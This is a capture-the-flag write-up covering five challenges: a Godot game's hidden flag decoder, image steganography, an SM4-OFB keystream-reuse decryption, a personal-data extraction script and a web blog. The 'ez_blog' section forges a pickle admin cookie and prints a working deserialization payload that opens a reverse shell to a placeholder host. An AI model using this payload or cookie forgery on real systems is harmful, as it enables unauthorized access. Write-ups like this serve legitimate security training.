


# GD1
The file description indicates this is a game developed with Godot Engine. Using GDRE tools to open it, we can locate the game logic:  
```plain
extends Node

@export var mob_scene: PackedScene
var score
var a = "000001101000000001100101000010000011000001100111000010000100000001110000000100100011000100100000000001100111000100010111000001100110000100000101000001110000000010001001000100010100000001000101000100010111000001010011000010010111000010000000000001010000000001000101000010000001000100000110000100010101000100010010000001110101000100000111000001000101000100010100000100000100000001001000000001110110000001111001000001000101000100011001000001010111000010000111000010010000000001010110000001101000000100000001000010000011000100100101"

func _ready():

    pass


func _process(delta: float) -> void :
    pass


func game_over():
    $ScoreTimer.stop()
    $MobTimer.stop()
    $HUD.show_game_over()

func new_game():
    score = 0
    $Player.start($StartPosition.position)
    $StartTimer.start()
    $HUD.update_score(score)
    $HUD.show_message("Get Ready")
    get_tree().call_group("mobs", "queue_free")

func _on_mob_timer_timeout():

    var mob = mob_scene.instantiate()


    var mob_spawn_location = $MobPath / MobSpawnLocation
    mob_spawn_location.progress_ratio = randf()


    var direction = mob_spawn_location.rotation + PI / 2


    mob.position = mob_spawn_location.position


    direction += randf_range( - PI / 4, PI / 4)
    mob.rotation = direction


    var velocity = Vector2(randf_range(150.0, 250.0), 0.0)
    mob.linear_velocity = velocity.rotated(direction)


    add_child(mob)


func _on_score_timer_timeout():
    score += 1
    $HUD.update_score(score)
    if score == 7906:
        var result = ""
        for i in range(0, a.length(), 12):
            var bin_chunk = a.substr(i, 12)
            var hundreds = bin_chunk.substr(0, 4).bin_to_int()
            var tens = bin_chunk.substr(4, 4).bin_to_int()
            var units = bin_chunk.substr(8, 4).bin_to_int()
            var ascii_value = hundreds * 100 + tens * 10 + units
            result += String.chr(ascii_value)
        $HUD.show_message(result)

func _on_start_timer_timeout():
    $MobTimer.start()
    $ScoreTimer.start()
```

We discover that when the score reaches 7906, a decryption algorithm is triggered to decrypt data from array a and print it. We wrote a decryption program following this logic:  
```cpp
#include <iostream>
#include <string>
#include <bitset>

using namespace std;

int bin_to_int(const string &bin) {
    return stoi(bin, nullptr, 2);
}

string decodeBinaryString(const string &a) {
    string result;
    for (size_t i = 0; i + 12 <= a.length(); i += 12) {
        string bin_chunk = a.substr(i, 12);
        int hundreds = bin_to_int(bin_chunk.substr(0, 4));
        int tens     = bin_to_int(bin_chunk.substr(4, 4));
        int units    = bin_to_int(bin_chunk.substr(8, 4));
        int ascii_value = hundreds * 100 + tens * 10 + units;
        result.push_back(static_cast<char>(ascii_value));
    }
    return result;
}

int main() {
    string a = "000001101000000001100101000010000011000001100111000010000100000001110000000100100011000100100000000001100111000100010111000001100110000100000101000001110000000010001001000100010100000001000101000100010111000001010011000010010111000010000000000001010000000001000101000010000001000100000110000100010101000100010010000001110101000100000111000001000101000100010100000100000100000001001000000001110110000001111001000001000101000100011001000001010111000010000111000010010000000001010110000001101000000100000001000010000011000100100101";
    cout << decodeBinaryString(a) << endl;
    return 0;
}
```
Execution yields the Flag: `DASCTF{xCuBiFYr-u5aP2-QjspKk-rh0LO-w9WZ8DeS}`

# 成功男人背后的女人 (The Woman Behind the Successful Man)
Opening the attachment reveals an image. Based on the hint, we suspected hidden images or other content. Initial attempts with binwalk and foremost yielded nothing. Research indicated the use of Adobe Fireworks' proprietary protocol. Opening the image with appropriate tools revealed the hidden content:    

The symbols at the bottom were combined in binary form:  
```plain
01000100010000010101001101000011
01010100010001100111101101110111
00110000011011010100010101001110
01011111011000100110010101101000
00110001011011100100010001011111
01001101010001010110111001111101
```
Decoding in 8-bit groups:  
```cpp
#include <iostream>
#include <string>
using namespace std;
int main(){
    string str="010001000100000101010011010000110101010001000110011110110111011100110000011011010100010101001110010111110110001001100101011010000011000101101110010001000101111101001101010001010110111001111101";
    for(int i=0;i<str.length();i+=8){
        cout<<(char)stoi(str.substr(i,8).c_str(),nullptr,2);
    }
    return 0;
}
```
Execution yields: `DASCTF{w0mEN_beh1nD_MEn}`

# SM4-OFB
We had AI analyze the encryption process and write a decryption script: 
```python
# 使用此代码进行本地运行或在本环境运行来恢复密文（SM4-OFB 假设下）
# 代码会：
# 1) 使用已知 record1 的明文和密文计算每个分块的 keystream（假设使用 PKCS#7 填充到 16 字节并且每个字段单独以 OFB 从相同 IV 开始）
# 2) 用得到的 keystream 去解 record2 对应字段的密文，尝试去掉填充并输出明文（UTF-8 解码）
#
# 说明：此脚本**不需要密钥**，只利用了已知明文与相同 IV/模式复用导致的 keystream 可重用性（这是 OFB/CTR 的典型弱点）
# 请确保安装 pycryptodome（如果需要对照加密进行验证），但此脚本只做异或操作，不调用加密库。
from binascii import unhexlify, hexlify
from Crypto.Util.Padding import pad, unpad

def xor_bytes(a,b):
    return bytes(x^y for x,y in zip(a,b))

# record1 已知明文与密文（用户提供）
record1 = {
    "name_plain": "蒋宏玲".encode('utf-8'),
    "name_cipher_hex": "cef18c919f99f9ea19905245fae9574e",
    "phone_plain": "17145949399".encode('utf-8'),
    "phone_cipher_hex": "17543640042f2a5d98ae6c47f8eb554c",
    "id_plain": "220000197309078766".encode('utf-8'),
    "id_cipher_hex": "1451374401262f5d9ca4657bcdd9687eac8baace87de269e6659fdbc1f3ea41c",
    "iv_hex": "6162636465666768696a6b6c6d6e6f70"
}

# record2 仅密文（用户提供）
record2 = {
    "name_cipher_hex": "c0ffb69293b0146ea19d5f48f7e45a43",
    "phone_cipher_hex": "175533440427265293a16447f8eb554c",
    "id_cipher_hex": "1751374401262f5d9ca36576ccde617fad8baace87de269e6659fdbc1f3ea41c",
    "iv_hex": "6162636465666768696a6b6c6d6e6f70"
}

BS = 16  # 分组长度

# 工具：把字段按 16 字节块切分
def split_blocks(b):
    return [b[i:i+BS] for i in range(0, len(b), BS)]

# 1) 计算 record1 每个字段的 keystream（假设加密前用 PKCS#7 填充，然后按块 XOR）
ks_blocks = {"name": [], "phone": [], "id": []}

# name
C_name = unhexlify(record1["name_cipher_hex"])
P_name_padded = pad(record1["name_plain"], BS)
for c, p in zip(split_blocks(C_name), split_blocks(P_name_padded)):
    ks_blocks["name"].append(xor_bytes(c, p))

# phone
C_phone = unhexlify(record1["phone_cipher_hex"])
P_phone_padded = pad(record1["phone_plain"], BS)
for c, p in zip(split_blocks(C_phone), split_blocks(P_phone_padded)):
    ks_blocks["phone"].append(xor_bytes(c, p))

# id (可能为两块)
C_id = unhexlify(record1["id_cipher_hex"])
P_id_padded = pad(record1["id_plain"], BS)
for c, p in zip(split_blocks(C_id), split_blocks(P_id_padded)):
    ks_blocks["id"].append(xor_bytes(c, p))

print("Derived keystream blocks (hex):")
for field, blks in ks_blocks.items():
    print(field, [b.hex() for b in blks])

# 2) 使用上述 keystream 去解 record2 相应字段
def recover_field(cipher_hex, ks_list):
    C = unhexlify(cipher_hex)
    blocks = split_blocks(C)
    recovered_padded = b''.join(xor_bytes(c, ks) for c, ks in zip(blocks, ks_list))
    # 尝试去除填充并解码
    try:
        recovered = unpad(recovered_padded, BS).decode('utf-8')
    except Exception as e:
        recovered = None
    return recovered, recovered_padded

name_rec, name_padded = recover_field(record2["name_cipher_hex"], ks_blocks["name"])
phone_rec, phone_padded = recover_field(record2["phone_cipher_hex"], ks_blocks["phone"])
id_rec, id_padded = recover_field(record2["id_cipher_hex"], ks_blocks["id"])

print("\nRecovered (if OFB with same IV/key and per-field restart):")
print("Name padded bytes (hex):", name_padded.hex())
print("Name plaintext:", name_rec)
print("Phone padded bytes (hex):", phone_padded.hex())
print("Phone plaintext:", phone_rec)
print("ID padded bytes (hex):", id_padded.hex())
print("ID plaintext:", id_rec)

# 如果解码失败，打印原始 bytes 以便人工分析
# if name_rec is None:
#     print("\nName padded bytes (raw):", name_padded)
# if phone_rec is None:
#     print("Phone padded bytes (raw):", phone_padded)
# if id_rec is None:
#     print("ID padded bytes (raw):", id_padded)

# 结束
```
We found that names and ID numbers could be computed. After dumping all names from the Excel sheet into a text file, we had AI write a batch processing script:  
```python
#!/usr/bin/env python3
"""
Batch-decrypt names encrypted with SM4-OFB where the same IV/nonce was reused and
one known plaintext/ciphertext pair is available (from record1).

This script:
 - Reads an input file (one hex-encoded cipher per line).
 - Uses the known record1 name plaintext & ciphertext to derive the OFB keystream
   blocks for the name-field (keystream = C XOR P_padded).
 - XORs each input cipher with the derived keystream blocks to recover plaintext,
   removes PKCS#7 padding if present, and prints a line containing:
       <recovered_name>\t<cipher_hex>

Usage:
    python3 sm4_ofb_batch_decrypt_names.py names_cipher.txt

Notes:
 - This assumes each name was encrypted as a separate field starting OFB from
   the same IV (so keystream blocks align for the name-field) and PKCS#7 padding
   was used before encryption. If names exceed the number of derived keystream
   blocks the script will attempt to reuse the keystream cyclically (warns about it),
   but ideally you should supply a longer known plaintext/ciphertext pair to
   derive more keystream blocks.
 - Requires pycryptodome for padding utilities:
       pip install pycryptodome

Edit the KNOWN_* constants below if your known record1 values differ.
"""

import sys
from binascii import unhexlify, hexlify
from Crypto.Util.Padding import pad, unpad

# -----------------------
# ----- KNOWN VALUES ----
# -----------------------
# These are taken from the CTF prompt / earlier messages. Change them if needed.
KNOWN_NAME_PLAIN = "蒋宏玲"  # record1 known plaintext for name field
KNOWN_NAME_CIPHER_HEX = "cef18c919f99f9ea19905245fae9574e"  # record1 name ciphertext hex
IV_HEX = "6162636465666768696a6b6c6d6e6f70"  # the IV column (fixed)

# Block size for SM4 (16 bytes)
BS = 16

# -----------------------
# ----- Helpers ---------
# -----------------------

def xor_bytes(a: bytes, b: bytes) -> bytes:
    return bytes(x ^ y for x, y in zip(a, b))


def split_blocks(b: bytes, bs: int = BS):
    return [b[i:i+bs] for i in range(0, len(b), bs)]


# -----------------------
# ----- Derive keystream from the known pair
# -----------------------

def derive_keystream_from_known(known_plain: str, known_cipher_hex: str):
    p = known_plain.encode('utf-8')
    c = unhexlify(known_cipher_hex)
    p_padded = pad(p, BS)
    p_blocks = split_blocks(p_padded)
    c_blocks = split_blocks(c)
    if len(p_blocks) != len(c_blocks):
        raise ValueError('Known plaintext/cipher block count mismatch')
    ks_blocks = [xor_bytes(cb, pb) for cb, pb in zip(c_blocks, p_blocks)]
    return ks_blocks


# -----------------------
# ----- Recovery --------
# -----------------------

def recover_name_from_cipher_hex(cipher_hex: str, ks_blocks):
    c = unhexlify(cipher_hex.strip())
    c_blocks = split_blocks(c)
    # If there are more cipher blocks than ks_blocks, warn and reuse ks cyclically
    if len(c_blocks) > len(ks_blocks):
        print("[WARN] cipher needs %d blocks but only %d keystream blocks available; reusing keystream cyclically" % (len(c_blocks), len(ks_blocks)), file=sys.stderr)
    recovered_blocks = []
    for i, cb in enumerate(c_blocks):
        ks = ks_blocks[i % len(ks_blocks)]
        recovered_blocks.append(xor_bytes(cb, ks))
    recovered_padded = b''.join(recovered_blocks)
    # Try to unpad and decode; if fails, return hex of raw bytes
    try:
        recovered = unpad(recovered_padded, BS).decode('utf-8')
    except Exception:
        try:
            recovered = recovered_padded.decode('utf-8')
        except Exception:
            recovered = '<raw:' + recovered_padded.hex() + '>'
    return recovered


# -----------------------
# ----- Main -----------
# -----------------------

def main():
    if len(sys.argv) != 2:
        print('Usage: python3 sm4_ofb_batch_decrypt_names.py <names_cipher_file>', file=sys.stderr)
        sys.exit(2)
    inpath = sys.argv[1]

    ks_blocks = derive_keystream_from_known(KNOWN_NAME_PLAIN, KNOWN_NAME_CIPHER_HEX)

    with open(inpath, 'r', encoding='utf-8') as f:
        for lineno, line in enumerate(f, 1):
            line = line.strip()
            if not line:
                continue
            # Assume each line is one hex-encoded name ciphertext (no spaces)
            try:
                recovered = recover_name_from_cipher_hex(line, ks_blocks)
            except Exception as e:
                recovered = '<error: %s>' % str(e)
            print(f"{recovered}\t{line}")


if __name__ == '__main__':
    main()
```
Searching revealed that the ciphertext corresponding to `何浩璐` was `c2de929284bff9f63b905245fae9574e`. Searching for the ID number ciphertext corresponding to this in Excel yielded: `1751374401262f5d9ca36576ccde617fad8baace87de269e6659fdbc1f3ea41c`. Decrypting this with the above script gave: `120000197404101676`. Calculating its MD5: `fbb80148b75e98b18d65be446f505fcc` gives the Flag.

# dataIdSort
We provided the requirements to AI and had it write a script:  
```python
#!/usr/bin/env python3
# coding: utf-8
"""
功能：
- 从 data.txt 中按顺序精确提取：身份证(idcard)、手机号(phone)、银行卡(bankcard)、IPv4(ip)、MAC(mac)。
- 严格遵循《个人信息数据规范文档》，优化正则表达式和匹配策略以达到高准确率。
- 所有匹配项均保留原始格式，并输出到 output.csv 文件中。
"""

import re
import csv
from datetime import datetime

# ------------------- 配置 -------------------
INPUT_FILE = "data.txt"
OUTPUT_FILE = "output.csv"
DEBUG = False  # 设置为 True 以在控制台打印详细的接受/拒绝日志

# 手机号前缀白名单
ALLOWED_MOBILE_PREFIXES = {
    "134", "135", "136", "137", "138", "139", "147", "148", "150", "151", "152", "157", "158", "159",
    "172", "178", "182", "183", "184", "187", "188", "195", "198", "130", "131", "132", "140", "145",
    "146", "155", "156", "166", "167", "171", "175", "176", "185", "186", "196", "133", "149", "153",
    "173", "174", "177", "180", "181", "189", "190", "191", "193", "199"
}
# ---------------------------------------------


# ------------------- 校验函数 -------------------

def luhn_check(digits: str) -> bool:
    """对数字字符串执行Luhn算法校验。"""
    s = 0
    alt = False
    for char in reversed(digits):
        d = int(char)
        if alt:
            d *= 2
            if d > 9:
                d -= 9
        s += d
        alt = not alt
    return s % 10 == 0

def is_valid_id(raw: str):
    """校验身份证号的有效性（长度、格式、出生日期、校验码）。"""
    sep_pattern = r'[\s\-\u00A0\u3000\u2013\u2014]'
    s = re.sub(sep_pattern, '', raw)
    
    if len(s) != 18 or not re.match(r'^\d{17}[0-9Xx]$', s):
        return False, "无效的格式或长度"
    
    try:
        birth_date = datetime.strptime(s[6:14], "%Y%m%d")
        if not (1900 <= birth_date.year <= datetime.now().year):
            return False, f"无效的出生年份: {birth_date.year}"
    except ValueError:
        return False, "无效的出生日期"

    weights = [7, 9, 10, 5, 8, 4, 2, 1, 6, 3, 7, 9, 10, 5, 8, 4, 2]
    check_map = ['1', '0', 'X', '9', '8', '7', '6', '5', '4', '3', '2']
    
    total = sum(int(digit) * weight for digit, weight in zip(s[:17], weights))
    expected_check = check_map[total % 11]
    
    if s[17].upper() != expected_check:
        return False, f"校验码不匹配: 期望值 {expected_check}"
        
    return True, ""

def is_valid_phone(raw: str) -> bool:
    """校验手机号的有效性（长度和号段）。"""
    digits = re.sub(r'\D', '', raw)
    if digits.startswith("86") and len(digits) > 11:
        digits = digits[2:]
    
    return len(digits) == 11 and digits[:3] in ALLOWED_MOBILE_PREFIXES

def is_valid_bankcard(raw: str) -> bool:
    """校验银行卡号的有效性（16-19位纯数字 + Luhn算法）。"""
    if not (16 <= len(raw) <= 19 and raw.isdigit()):
        return False
    return luhn_check(raw)

def is_valid_ip(raw: str) -> bool:
    """校验IPv4地址的有效性（4个0-255的数字，不允许前导零）。"""
    parts = raw.split('.')
    if len(parts) != 4:
        return False
    # 检查是否存在无效部分，如 '01'
    if any(len(p) > 1 and p.startswith('0') for p in parts):
        return False
    return all(p.isdigit() and 0 <= int(p) <= 255 for p in parts)

def is_valid_mac(raw: str) -> bool:
    """校验MAC地址的有效性。"""
    # 正则表达式已经非常严格，这里仅做最终确认
    return re.fullmatch(r'([0-9a-fA-F]{2}:){5}[0-9a-fA-F]{2}', raw, re.IGNORECASE) is not None

# ------------------- 正则表达式定义 -------------------

# 模式的顺序经过精心设计，以减少匹配歧义：优先匹配格式最特殊的。
# 1. MAC地址：格式明确，使用冒号分隔。
mac_pattern = r'(?P<mac>(?:[0-9a-fA-F]{2}:){5}[0-9a-fA-F]{2})'

# 2. IP地址：格式明确，使用点分隔。该正则更精确，避免匹配如 256.1.1.1 的无效IP。
ip_pattern = r'(?P<ip>(?<!\d)(?:(?:25[0-5]|2[0-4]\d|1\d\d|[1-9]?\d)\.){3}(?:25[0-5]|2[0-4]\d|1\d\d|[1-9]?\d)(?!\d))'

# 3. 身份证号：结构为 6-8-4，长度固定，比纯数字的银行卡更具特异性。
sep = r'[\s\-\u00A0\u3000\u2013\u2014]'
id_pattern = rf'(?P<id>(?<!\d)\d{{6}}(?:{sep}*)\d{{8}}(?:{sep}*)\d{{3}}[0-9Xx](?!\d))'

# 4. 银行卡号：匹配16-19位的连续数字。这是最通用的长数字模式之一，放在后面匹配。
bankcard_pattern = r'(?P<bankcard>(?<!\d)\d{16,19}(?!\d))'

# 5. 手机号：匹配11位数字的特定格式，放在最后以避免错误匹配更长数字串的前缀。
phone_prefix = r'(?:\(\+86\)|\+86\s*)'
phone_body = r'(?:\d{11}|\d{3}[ -]\d{4}[ -]\d{4})'
phone_pattern = rf'(?P<phone>(?<!\d)(?:{phone_prefix})?{phone_body}(?!\d))'

# 将所有模式编译成一个大的正则表达式
combined_re = re.compile(
    f'{mac_pattern}|{ip_pattern}|{id_pattern}|{bankcard_pattern}|{phone_pattern}',
    flags=re.UNICODE | re.IGNORECASE
)

# ------------------- 主逻辑 -------------------

def extract_from_text(text: str):
    """
    使用单一的、组合的正则表达式从文本中查找所有候选者，并逐一校验。
    """
    results = []
    
    for match in combined_re.finditer(text):
        kind = match.lastgroup
        value = match.group(kind)
        
        if kind == 'mac':
            if is_valid_mac(value):
                if DEBUG: print(f"【接受 mac】: {value}")
                results.append(('mac', value))
            elif DEBUG: print(f"【拒绝 mac】: {value}")
        
        elif kind == 'ip':
            if is_valid_ip(value):
                if DEBUG: print(f"【接受 ip】: {value}")
                results.append(('ip', value))
            elif DEBUG: print(f"【拒绝 ip】: {value}")

        elif kind == 'id':
            is_valid, reason = is_valid_id(value)
            if is_valid:
                if DEBUG: print(f"【接受 idcard】: {value}")
                results.append(('idcard', value))
            else:
                # 降级处理：如果作为身份证校验失败，则尝试作为银行卡校验
                digits_only = re.sub(r'\D', '', value)
                if is_valid_bankcard(digits_only):
                    if DEBUG: print(f"【接受 id->bankcard】: {value}")
                    # 规范要求保留原始格式
                    results.append(('bankcard', value))
                elif DEBUG: print(f"【拒绝 id】: {value} (原因: {reason})")

        elif kind == 'bankcard':
            if is_valid_bankcard(value):
                if DEBUG: print(f"【接受 bankcard】: {value}")
                results.append(('bankcard', value))
            elif DEBUG: print(f"【拒绝 bankcard】: {value}")
        
        elif kind == 'phone':
            if is_valid_phone(value):
                if DEBUG: print(f"【接受 phone】: {value}")
                results.append(('phone', value))
            elif DEBUG: print(f"【拒绝 phone】: {value}")
                
    return results

def main():
    """主函数：读取文件，执行提取，写入CSV。"""
    try:
        with open(INPUT_FILE, "r", encoding="utf-8", errors="ignore") as f:
            text = f.read()
    except FileNotFoundError:
        print(f"错误: 输入文件 '{INPUT_FILE}' 未找到。请确保该文件存在于脚本运行目录下。")
        # 创建一个空的data.txt以确保脚本可以运行
        with open(INPUT_FILE, "w", encoding="utf-8") as f:
            f.write("")
        print(f"已自动创建空的 '{INPUT_FILE}'。请向其中填充需要分析的数据。")
        text = ""

    extracted_data = extract_from_text(text)

    with open(OUTPUT_FILE, "w", newline="", encoding="utf-8") as csvfile:
        writer = csv.writer(csvfile)
        writer.writerow(["category", "value"])
        writer.writerows(extracted_data)
    
    print(f"分析完成。共识别 {len(extracted_data)} 条有效敏感数据。结果已保存至 '{OUTPUT_FILE}'。")

if __name__ == "__main__":
    main()
```
Execution produces `export.csv`. Uploading this with accuracy >=98% yields the Flag: `DASCTF{34164200333121342836358909307523}`


# ez_blog
Opening the webpage revealed a login requirement. Following hints, we successfully logged in as a guest using username `guest` and password `guest`. We observed a Cookie containing `Token=8004954b000000000000008c03617070948c04557365729493942981947d94288c026964944b028c08757365726e616d65948c056775657374948c0869735f61646d696e94898c096c6f676765645f696e948875622e`. AI analysis revealed this was pickle serialization converted to hex. Decoding showed: `KappUser)}(idusernameguesis_admin logged_inub.`. We modified the content to change `username` to `admin` and `is_admin` to `True`, resulting in: `8004954b000000000000008c03617070948c04557365729493942981947d9428 8c026964944b028c08757365726e616d65948c0561646d696e948c0869735f61 646d696e94888c096c6f676765645f696e948875622e`. Modifying the request Cookies via BurpSuite successfully granted admin privileges (with article creation rights):  

This indicated the server deserializes the Token, allowing exploitation of deserialization vulnerabilities. With no echo, we opted for a reverse shell. We crafted the Payload:  
```python
import pickle
import time
import binascii
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('''python3 -c "import os
import socket
import subprocess
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('<Your IP>', 2333))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(['/bin/sh', '-i'])"''',))

payload = pickle.dumps(Exploit())
hex_token = binascii.hexlify(payload).decode()
print(hex_token)
print(payload)

obj = pickle.loads(payload)
```
Execution produced the Payload: `80049510010000000000008c05706f736978948c0673797374656d9493948cf5707974686f6e33202d632022696d706f7274206f730a696d706f727420736f636b65740a696d706f72742073756270726f636573730a733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c20736f636b65742e534f434b5f53545245414d290a732e636f6e6e6563742828273c596f75722049503e272c203233333329290a6f732e6475703228732e66696c656e6f28292c2030290a6f732e6475703228732e66696c656e6f28292c2031290a6f732e6475703228732e66696c656e6f28292c2032290a70203d2073756270726f636573732e63616c6c285b272f62696e2f7368272c20272d69275d292294859452942e`. After running `nc -lvvp 2333` on our server and sending the Payload as the Token, we successfully obtained a shell. The Flag was located in `/thisisthefffflllaaaggg.txt`:

Flag: `DASCTF{15485426979172729258466667411440}`
